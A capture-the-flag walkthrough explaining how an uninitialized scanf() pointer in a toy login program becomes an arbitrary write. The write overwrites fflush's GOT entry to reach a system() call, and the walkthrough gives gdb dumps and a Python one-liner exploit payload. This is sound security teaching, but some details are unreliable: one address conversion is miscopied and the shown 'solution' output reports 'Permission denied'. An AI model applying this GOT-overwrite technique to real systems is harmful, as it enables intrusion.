

# 6 - passcode

## Walkthrough
We first run `ls -la` to see which files exist in our machine:
```bash
passcode@ubuntu:~$ ls -la
total 52
drwxr-x---   5 root passcode      4096 Apr 19 10:54 .
drwxr-xr-x 126 root root          4096 Apr  5 10:12 ..
d---------   2 root root          4096 Jun 26  2014 .bash_history
-r--r-----   1 root passcode_pwn    42 Apr 19 10:48 flag
dr-xr-xr-x   2 root root          4096 Aug 20  2014 .irssi
-rw-------   1 root root          1287 Jul  2  2022 .mysql_history
-r-xr-sr-x   1 root passcode_pwn 15232 Apr 19 10:54 passcode
-rw-r--r--   1 root root           892 Apr 19 10:54 passcode.c
drwxr-xr-x   2 root root          4096 Oct 23  2016 .pwntools-cache
-rw-------   1 root root           581 Jul  2  2022 .viminfo
```

See first exercise for reason we can't just read `flag` directly.

We then turn to the `passcode.c` file and its corresponding compiled binary file `passcode`:
```c
#include <stdio.h>
#include <stdlib.h>

void login() {
  int passcode1;
  int passcode2;

  printf("enter passcode1 : ");
  scanf("%d", passcode1);
  fflush(stdin);

  // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
  printf("enter passcode2 : ");
  scanf("%d", passcode2);

  printf("checking...\n");
  if (passcode1 == 123456 && passcode2 == 13371337) {
    printf("Login OK!\n");
    setregid(getegid(), getegid());
    system("/bin/cat flag");
  } else {
    printf("Login Failed!\n");
    exit(0);
  }
}

void welcome() {
  char name[100];
  printf("enter you name : ");
  scanf("%100s", name);
  printf("Welcome %s!\n", name);
}

int main() {
  printf("Toddler's Secure Login System 1.1 beta.\n");

  welcome();
  login();

  // something after login...
  printf("Now I can safely trust you that you have credential :)\n");
  return 0;
}
```

In order to print the flag, we need to pass the check of `password1` and `password2`.
According to the man page of `scanf(3)`, the arguments after the format should be pointers to the variables we need to set.
Passing the check would have been almost straightforward without the mistake in the `scanf` calls:
```c
scanf("%d", passcode1); // should be scanf("%d", &passcode1);
scanf("%d", passcode2); // should be scanf("%d", &passcode2);
```

Because the variables are sent "by value" and not with their addresses, and because both local variables are uninitialized, they can be any garbage value. It will cause the `scanf` function to dereference a garbage value as the address of the local variable, which would cause the program to access random values or even get a segmentation fault because an illegal memory access.

We can make both `scanf` calls read no input in order not to avoid the possibly illegal deference, but it still leaves us with the problem of the values of `passcode1` and `passcode2` being wrong.

Let's try to use the `scanf` call in the `welcome` function to fill the array `name` with 100 'A', and see what it does. We will use `gdb` for that:
```bash
gdb ./passcode
```
Inside, we will run the program with the input of 100 'A":
`run < <(python -c "import sys; sys.stdout.buffer.write(b'A' * 100)")`

```
Let's see where on the stack the passcode variables are. We use `gdb` for that:
```assembly
pwndbg> disassemble login
Dump of assembler code for function login:
   0x080491f6 <+0>:     push   ebp
   0x080491f7 <+1>:     mov    ebp,esp
   0x080491f9 <+3>:     push   esi
   0x080491fa <+4>:     push   ebx
=> 0x080491fb <+5>:     sub    esp,0x10
   0x080491fe <+8>:     call   0x8049130 <__x86.get_pc_thunk.bx>
   0x08049203 <+13>:    add    ebx,0x2dfd
   0x08049209 <+19>:    sub    esp,0xc
   0x0804920c <+22>:    lea    eax,[ebx-0x1ff8]
   0x08049212 <+28>:    push   eax
   0x08049213 <+29>:    call   0x8049050 <printf@plt>
   0x08049218 <+34>:    add    esp,0x10
   0x0804921b <+37>:    sub    esp,0x8
   0x0804921e <+40>:    push   DWORD PTR [ebp-0x10]
   0x08049221 <+43>:    lea    eax,[ebx-0x1fe5]
   0x08049227 <+49>:    push   eax
   0x08049228 <+50>:    call   0x80490d0 <__isoc99_scanf@plt>
   0x0804922d <+55>:    add    esp,0x10
   0x08049230 <+58>:    mov    eax,DWORD PTR [ebx-0x4]
   0x08049236 <+64>:    mov    eax,DWORD PTR [eax]
   0x08049238 <+66>:    sub    esp,0xc
   0x0804923b <+69>:    push   eax
   0x0804923c <+70>:    call   0x8049060 <fflush@plt>
   0x08049241 <+75>:    add    esp,0x10
   0x08049244 <+78>:    sub    esp,0xc
   0x08049247 <+81>:    lea    eax,[ebx-0x1fe2]
   0x0804924d <+87>:    push   eax
   0x0804924e <+88>:    call   0x8049050 <printf@plt>
   0x08049253 <+93>:    add    esp,0x10
   0x08049256 <+96>:    sub    esp,0x8
   0x08049259 <+99>:    push   DWORD PTR [ebp-0xc]
   0x0804925c <+102>:   lea    eax,[ebx-0x1fe5]
   0x08049262 <+108>:   push   eax
   0x08049263 <+109>:   call   0x80490d0 <__isoc99_scanf@plt>
   0x08049268 <+114>:   add    esp,0x10
   0x0804926b <+117>:   sub    esp,0xc
   0x0804926e <+120>:   lea    eax,[ebx-0x1fcf]
   0x08049274 <+126>:   push   eax
   0x08049275 <+127>:   call   0x8049090 <puts@plt>
   0x0804927a <+132>:   add    esp,0x10
   0x0804927d <+135>:   cmp    DWORD PTR [ebp-0x10],0x1e240
   0x08049284 <+142>:   jne    0x80492ce <login+216>
   0x08049286 <+144>:   cmp    DWORD PTR [ebp-0xc],0xcc07c9
   0x0804928d <+151>:   jne    0x80492ce <login+216>
   0x0804928f <+153>:   sub    esp,0xc
   0x08049292 <+156>:   lea    eax,[ebx-0x1fc3]
   0x08049298 <+162>:   push   eax
   0x08049299 <+163>:   call   0x8049090 <puts@plt>
   0x0804929e <+168>:   add    esp,0x10
   0x080492a1 <+171>:   call   0x8049080 <getegid@plt>
   0x080492a6 <+176>:   mov    esi,eax
   0x080492a8 <+178>:   call   0x8049080 <getegid@plt>
   0x080492ad <+183>:   sub    esp,0x8
   0x080492b0 <+186>:   push   esi
   0x080492b1 <+187>:   push   eax
   0x080492b2 <+188>:   call   0x80490c0 <setregid@plt>
   0x080492b7 <+193>:   add    esp,0x10
   0x080492ba <+196>:   sub    esp,0xc
   0x080492bd <+199>:   lea    eax,[ebx-0x1fb9]
   0x080492c3 <+205>:   push   eax
   0x080492c4 <+206>:   call   0x80490a0 <system@plt>
   0x080492c9 <+211>:   add    esp,0x10
   0x080492cc <+214>:   jmp    0x80492ea <login+244>
   0x080492ce <+216>:   sub    esp,0xc
   0x080492d1 <+219>:   lea    eax,[ebx-0x1fab]
   0x080492d7 <+225>:   push   eax
   0x080492d8 <+226>:   call   0x8049090 <puts@plt>
   0x080492dd <+231>:   add    esp,0x10
   0x080492e0 <+234>:   sub    esp,0xc
   0x080492e3 <+237>:   push   0x0
   0x080492e5 <+239>:   call   0x80490b0 <exit@plt>
   0x080492ea <+244>:   nop
   0x080492eb <+245>:   lea    esp,[ebp-0x8]
   0x080492ee <+248>:   pop    ebx
   0x080492ef <+249>:   pop    esi
   0x080492f0 <+250>:   pop    ebp
   0x080492f1 <+251>:   ret
End of assembler dump.
```

We can see see two arguments that are passed to the `scanf` function in the `login` function, one on the stack, and the other one in `eax`.
The argument in eax:
```assembly
pwndbg> x/s $ebx-0x1fe5
0x804a01b:      "%d"
```
This is the format argument of `scanf`, which means the other one in `ebp-0x10` in the `passcode1` value (which is treated as a pointer).
Inspecting this value:
```assembly
pwndbg> x/16wx $ebp-0x10
0xffae4568:     0x41414141      0xd2c87100      0x0804c000      0xffae4654
0xffae4578:     0xffae4588      0x0804939a      0xffae45a0      0xf7f8f000
0xffae4588:     0xf7fe5020      0xf7d86519      0xffae5d62      0x00000070
0xffae4598:     0xf7fe5000      0xf7d86519      0x00000001      0xffae4654
```
Interesting! We can see `0x41414141` which is 4 bytes of 'A' ("AAAA"). It must be related to our input. Let's verify it by changing the input to: `run < <(python -c "import sys; sys.stdout.buffer.write(b'a' * 100)")`:
```assembly
pwndbg> x/16wx $ebp-0x10
0xffbde638:     0x61616161      0xbe8cd400      0x0804c000      0xffbde724
0xffbde648:     0xffbde658      0x0804939a      0xffbde670      0xf7f54000
0xffbde658:     0xf7faa020      0xf7d4b519      0xffbdfd62      0x00000070
0xffbde668:     0xf7faa000      0xf7d4b519      0x00000001      0xffbde724
```
Similarly, `0x61616161` is 4 bytes of 'a' ("aaaa"). It means the input we passed to the `scanf` function in the `welcome` function was "recycled" by the stack frame of the `login` call. As we explained above, because both passcode variables are uninitialized, they have the garbage values on the stack, but as we can see, the value of `passcode1` doesn't have to be totally garbage, it can we controlled!


Let's look at the memory before $ebp-0x10 and verify that is it indeed the sequential values from `name` in `welcome`:
```assembly
pwndbg> x/-16wx $ebp-0x10
0xffbde5f8:     0x61616161      0x61616161      0x61616161      0x61616161
0xffbde608:     0x61616161      0x61616161      0x61616161      0x61616161
0xffbde618:     0x61616161      0x61616161      0x61616161      0x61616161
0xffbde628:     0x61616161      0x61616161      0x61616161      0x61616161
```
Like we thought. Because the stack grows down, but variables like arrays grow up, it means that the last 4 bytes of our input are stored in `passcode1`.



It means we need to pass 123456 (0x1e240) in little endian (`"\x40\xe2\x01\x00"`) as the last 4 bytes.
Doing so passes the first check `password1==123456`!

The problem is bypassing the second one, `passcode2`, because the `name` buffer only covers `passcode1` on the stack.

The bright side is - we can still change the value of `password` to any integer.

Let's go back a bit. We know that the first `scanf` in the `login` function expects a pointer, let's call it `ptr`, and then it reads input from stdin, let's call it `value`, and assigns: `*ptr = value`.
We can take advantage of the control we have over `passcode1`'s value, and instead of skipping the first `scanf` in `login`, use it to put any integer in any address we want!

What we would really like it to pass the check, but what if we could pass it without actually checking the local variables? What if we could somehow "jump" over to the `system("/bin/cat flag");` call? Well there is a way.

This part includes knowledge about dynamic linking of libraries, with terms like ELF (Executable and Linkable Format), GOT (Global Offset Tables), PLT (Procedure Linkage Table) and linker. More on that can be read on the internet, for example in this [wonderful blog from systemoverlord.com](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html).

Without getting into much details, each call to a dynamically linked function goes through a table of function pointers `.got.plt`. Before the first call, address in this table redirects to a resolution code of the address of the function (back to the `.plt` section). After this call, thanks to the linker which found the address of the dynamically linked function, it changed the address in the `.got.plt` table, meaning each subsequent call will jump to the real function, because it was already resolved.

Let's see an example of dynamically linked function `fflush` using `gdb`:
```assembly
pwndbg> disassemble fflush
Dump of assembler code for function fflush@plt:
   0x08049060 <+0>:     jmp    DWORD PTR ds:0x804c014
   0x08049066 <+6>:     push   0x10
   0x0804906b <+11>:    jmp    0x8049030
End of assembler dump.
```

As we can see, the `fflush` is not really the function, but a stub entry in the `.plt` section. There, a jump to the address stored in `0x804c014`, an entry in the `.got.plt` table is performed:
```assembly
pwndbg> x/a 0x804c014
0x804c014 <fflush@got.plt>:     0x8049066 <fflush@plt+6>
```
The entry includes a pointer back to the `.plt` (the `push` command in the `.plt` section) table in order to resolve the real address of `.plt` for the first time, as we described above.

All of this means that when `fflush` is called, there is a `jmp` to the address stored in `0x804c014`. This is exactly what we need! If we change the the value in `0x804c014` to be the address of the `system("/bin/cat flag");` call, we would just jump to the command which prints the flag's content, instead of to the `fflush`'s resolution commands (int the `.plt`). Note that in order to pass this value to `scanf` it must not include any whitespace or a newline, and luckily for us, it doesn't (`"\x14\xc0\x04\x08"`).

But why choose `fflush`? It is called immediately after the `scanf` function, so it is great for us - No side effects, and we already found out it doesn't contain any terminating bytes for the `scanf` function. In our case, `printf` would also have worked, but `fflush` is good enough. 

Let's look at the part from `disassemble login` we are interested at (see above for full assembly code):
```assembly
   0x080492ba <+196>:   sub    esp,0xc
   0x080492bd <+199>:   lea    eax,[ebx-0x1fb9]
   0x080492c3 <+205>:   push   eax
   0x080492c4 <+206>:   call   0x80490a0 <system@plt>
   0x080492c9 <+211>:   add    esp,0x10
```

We can jump to `0x080492ba` which in where the stack is being prepared for the `system` call in the `login` function.
In little endian:
- Address of the `.got.plt` entry of `fflush`: `0x804c014` --> `"\x14\xc0\x04\x08"`
- Address of the `system` call: `0x080492ba` --> `"\x14\xc0\x04\x08"`

### Trial and error
Trying to pass the address of the `system` call as bytes (`"\x14\xc0\x04\x08"`) didn't work. It it because `%d` in `scanf` expects an integer and not bytes. So we need to convert `0x080492ba` to decimal: `134517434`.


So it seems all we need to do is just:

Pass the program the input of:
* 96 arbitrary bytes
* 4 bytes of the address of the `.got.plt`: `b'\x14\xc0\x04\x08'`
* The integer `134517434` which is the address of the `system` call in the `login` function

## Solution
```bash
passcode@ubuntu:~$ python -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x14\xc0\x04\x08' + b'134517434')" | ./passcode
Toddler's Secure Login System 1.1 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
/bin/cat: flag: Permission denied
enter passcode1 : Now I can safely trust you that you have credential :)
```

NOTE: No need for `\n` because the first `scanf` in the `welcome` function reads at most 100 bytes, and then the second `scanf`, the first one in the `login` function just reads the next integer. But, `\n` can be added for clarity: `python -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x14\xc0\x04\x08' + b'\n' + b'134517434' + b'\n')"`

Or using `gdb`:
```assembly
run < <(python -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x14\xc0\x04\x08' + b'134517434')")
```
